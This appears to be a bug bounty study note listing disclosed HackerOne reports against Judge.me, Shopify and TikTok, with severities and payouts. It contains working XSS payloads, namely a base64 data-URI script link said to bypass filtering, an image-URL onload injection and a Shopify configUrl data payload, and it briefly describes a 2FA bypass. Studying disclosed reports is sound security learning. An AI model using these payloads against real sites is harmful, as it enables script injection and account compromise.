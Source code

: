 # 😁 02



## 01

### \[Judge.me] Stored XSS in Public Profile Reviews(1398285)

> None - XSS - 250

{% embed url="https://hackerone.com/reports/1398285" %}

The attacker can inject the payload into the shop addition options.

1. go to the user profile
2. click add recommendation, the payload is a link tag: `<a href="data:text/html;charset=utf-7;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">`Click Here`</a>`

(It seems the base64 encode can bypass the check)

3. click on HTML tag, the XSS will be triggered.

> Test the stored-XSS at the profile page by injecting an URL tag.



### \[Judge.me] Improper Access Control in Ali Express Importer

> Medium - Improper Access Control - 500

{% embed url="https://hackerone.com/reports/1609955" %}

The reporter has reported three kinds of this vulnerability(1450807, 1382652).



### \[Judge.me] Self-XSS due to image URL can be exploited via XSSJacking techniques in review email

> Medium - XSS - 500

{% embed url="https://hackerone.com/reports/1397940" %}

&#x20; 1 . Login and add a new recommendation&#x20;

2. Go back to the recommendation list, click the pencil icon in the image and insert this payload to trigger the Self-XSS:

> [https://secure.gravatar.com/avatar/█████████.png?;'onload=alert(document.domain)>](https://secure.gravatar.com/avatar/%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88.png?;%27onload=alert\(document.domain\)%3E)



## 02&#x20;

### \[Shopify]XSS at jamfpro.shopifycloud.com

> Medium - XSS - 9,400

{% embed url="https://hackerone.com/reports/1444682" %}

* Payload : [https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9](https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9)





## 03

### \[TikTok] TikTok 2FA Bypass

> Medium - Improper Authorization - 1,565

A vulnerability was found where a user would be able to bypass 2FA if logging in and redirecting back on a UK TikTok Seller URL. We thank [@amans](https://hackerone.com/amans) for reporting this to our team.

{% embed url="https://hackerone.com/reports/1247108" %}

